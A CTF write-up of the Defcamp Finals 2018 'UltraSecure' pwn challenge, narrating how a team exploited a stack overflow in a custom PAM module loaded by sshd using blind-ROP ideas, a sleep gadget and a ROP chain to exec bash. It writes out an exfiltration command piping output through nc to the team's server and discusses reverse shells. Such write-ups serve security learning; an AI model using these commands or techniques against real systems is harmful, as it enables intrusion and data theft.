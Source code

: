 ```yaml
---
title: "Defcamp Finals 2018 - UltraSecure (pwn)"
description: ""
pubDate: 2018-11-09
tags: [ctf, pwn]
---
```


> 142.93.107.255 (Solves: 3, ~400 pts)
>
> [UltraSecure.so][bin1] [UltraSecure-2.so][bin2] [+auto.py][auto]

In this challenge, we are presented with a `UltraSecure.so` shared object file (later updated by the authors to UltraSecure-2.so), and challenge server ip without a port. This is quite puzzling as generally I expect a binary and a port to be provided in a pwn challenge. Naturally, I decided to find out the port for this service first, so I ran a simple nmap scan to discover the open ports. There weren't many open ports from the results and what stands out is the open ssh port.
```
PORT    STATE    SERVICE
22/tcp  open     ssh
```

## Quick Glance
Upon quick reversing of the .so file we are provided with, it seems that it only implements three functions `pam_sm_authenticate`, `pam_sm_acct_mgmt`, `pam_sm_setcred` (In the updated binary there is a bit more, but these are the functions that matter). Upon quick googling you'll realise that these functions are used for authentication of user logins.
```
PAM_SM_AUTHENTICATE(3)        Linux-PAM Manual        PAM_SM_AUTHENTICATE(3)

pam_sm_authenticate - PAM service function for user authentication
```
Now the challenge is starting to make more sense, since the SSH service is running on the challenge server, and it's likely loading this shared object, we have to exploit the authentication during the SSH connection. Looking at the binary, the bug is very trivial, it's a `memcpy` (originally was `strcpy`) of user input into a stack buffer without any bounds checking, thus we can essentially overflow the stack as much as we wish.

In the password check for authentication, our user-given password copied on to the stack buffer is compared with a very large string of "A"s. 

```c
if ( !strcmp(
      &dest,
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
      "AAAAAAAAAAAAAAAAAAA") )
result = 0LL; // 0 = authentication pass
```

The number of "A"s in the correct password is such that if we were to provide a correct password that gives return result of 0, our saved RIP on the stack will be overwritten. Thus it doesn't matter if our return value is correct since it will segfault upon return to a bad address. If we were provided with a binary (and there is no PIE), it would be pretty easy to form a ROP chain and pop our shell or read the flag, however since we do not have a binary, our options are limited.

## BeeROP
From our previous constraints, this challenge immediately reminded me of BROP(Blind ROP), a technique that uses brute-force and clever logic to find gadgets and perform ROP without having access to the binary. I've never done the technique but I was familiar with the idea after reading about it in the past. One idea in BROP is brute-forcing the stack canary. The idea is that if the stack canary is unknown but constant throughout executions, we could bruteforce one byte at a time, when the binary doesn't throw an error, then we've hit the correct byte. In this case, there are no stack canaries but we could apply the same idea to bruteforce return addresses on the stack, this would give us a leak in those respective pages. If we got the byte wrong, the ssh connection would immediately drop, if we hit the correct byte, the ssh prompt will request for a password again as our password provided was wrong. For `pam_sm_authenticate`, I believe that it was being called by `pam_authenticate` from `libpam.so`, thus if we bruteforce this address, we could perform ROP using gadgets from that file. However, this had multiple issues or assumptions required.

1. No ASLR
	- In order to bruteforce the canary, the canary must be constant across executions. Likewise, when we want to bruteforce this return address, we need the address to be constant throughout different executions, if not we would never be able to bruteforce the value.

2. Same libpam.so
	- Assuming we did get a leak from the `libpam.so`, we would still need to find gadgets and functions that we can call, finding their addresses relative to our leak. In order for this to work, we need to be have the same `libpam.so` that the server is running. Since I was not familiar with this file, I wasn't confident about ROPing with it.

3. Noob python
	- We couldn't figure out how to script it properly. It is surprisingly difficult to script SSH authentications.

With all these issues, I decided to drop the challenge and pivot to working on the web challenges. Meanwhile, my teammate for this finals [FetchDex][fedex] continued to work on the challenge as he was determined to solve it.

## Back at it 
After I had solved a web challenge and a "good night's sleep"(on a beanbag), FetchDex managed to get a local copy of the same OpenSSH version installed, meaning we may have the correct binary (same one as the one running on the server). Additionally, after playing some meta-CTF, I google'd the challenge author's github and found an interesting [repository][github] about PAM modules. This helped us to link the module and was useful for debugging and such. Thus I continued to work together with FetchDex on this challenge.

## Sleepy pwnable
Although we did compile the same version of OpenSSH locally, being a skeptic, I was doubtful that our resultant binary was exactly the same as the one running on the server. This usually isn't a big deal, but for ROPing, a small different could mean that all our gadgets are taken from the wrong addresses, if the compiler were to just sneeze during compilation, our exploit would be gone. Sleep-deprived pwners need sleep, and so do the pwnables. In order to test whether we could effectively control RIP and go to the gadgets in the `sshd` (OpenSSH) binary, I needed some indication that the gadget has been run. Initially, I had chosen some `printf()` gadgets that should print to stdout, but since we were connecting with the `ssh` tool, it seems that we couldn't see any of that output, either the server doesn't send it or our client doesn't display it. Instead, as I've been foreshadowing, I found a `sleep(some_big_number)` gadget. This is a much more telling gadget as we can see an indication that this is running when the interactive session pauses for a long time after we send our malicious password. Fortunately, the sleep trick worked both locally and remotely, a strong indicator that our offsets are either exactly the same or good enough for our uses.

## ROP master
After knowing that we can call gadgets from the `sshd` binary, we were equipped to win. We formed a quick `execv("/bin/sh", 0)` ROP chain, hoping it would work. Unfortunately, the ROP chain executed but we would not be able to interact with it through the SSH client we were using. This got us for a while and I was ready to give up.

Later on, we moved to a slightly different idea. This challenge reminded me of MeePwn CTF challenge where we could execute shellcode on their server but we had no interactive access. In the end, I ran a `/bin/bash -c` shellcode, using a reverse shell as an argument. This easily gives us a reverse shell that we can use to interact with the server, even though the original binary doesn't permit an interative session for us. With the gadgets we had, we could possible pull off a `/bin/bash -c` too. However, a big issue was that we needed to get the strings like "/bin/bash", "-c" and our command in memory. Since we do not have proper interactive access, we can't use something like `read(0, bss, 1000)` to read our strings to some known writable address. Since the CTF was ending soon, I decided not to look for a perfect solution, but to look for a solution that might work. Therefore, I randomly made the assumption that ASLR was disabled. If ASLR was disabled, this would be very useful for us as we have certain heap buffers that we can control. If ASLR is disabled, these heap buffers would always be at the same place (mostly), meaning our exploit can work. We confirmed this with the organisers later.
* Note: After reading a nice [writeup][writeup] from the other team, I now realise that we did not need to make this as an assumption. Since `sshd` is something like a fork server, the addresses would not be re-randomised everytime so it's not too bad.

Moving on, since we can control the heap buffers, we can simply form a ROP chain that will allow us to call `exec("/bin/bash", argv)`, where `argv = ["/bin/bash", "-c", "arbitrary_command"]`. This ROP chain worked and we were able to get input from the server with commands like `ls | nc our_server 1337`. However, I don't know why it didn't occur to me during the CTF, but we were using `some_command | nc our_server 1337` repeatedly with different commands. And since the heap addresses did change slightly every once in awhile, the script only worked once every ~30 times, thus this was very slow. In hindsight, I should have just ran a single command that would create reverse bash shell back to my remote server, we would have gotten the flag a lot earlier had I realised this. Eventually, we got the flag quite soon to the end of the CTF. A nice way to end.

`DCTF{f646115ce24bada814d949b254a3b0b7858551e07df7235bd20e6b92834fd023}`

## Post-CTF
We(HATS Singapore) ended the CTF in 12th place of 17 finalist teams. This CTF was the first time I've talked to most of my teammates in real life and it's been an interesting experience thus far. Being our first onsite CTF playing as a team, I'm quite proud of how we faired in this CTF even though it may not be objectively the greatest placing.
![screenshot][ss]



[bin1]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure.so
[bin2]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/UltraSecure-2.so
[auto]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/auto.py
[fedex]:https://twitter.com/FetchDEX
[github]:https://github.com/NitescuLucian/simple-pam
[writeup]:https://github.com/Inndy/ctf-writeup/tree/master/2018-d-ctf-final/ultimate-secure
[ss]:/ctf/2018-11-09-defcamp-finals-2018---ultrasecure/ss.png